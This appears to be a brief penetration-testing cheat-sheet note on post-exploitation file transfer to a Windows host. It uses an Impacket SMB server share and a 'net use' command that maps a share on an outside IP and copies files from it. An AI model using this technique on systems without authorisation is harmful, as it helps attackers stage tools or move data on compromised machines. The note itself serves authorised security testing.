 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Windows
---
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]]

A SMB share can be used across an entire domain
1. [[3. Exploitation/Operating Systems/Windows/Tooling/Impacket|Impacket]] SMB server share
2. Net Use

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

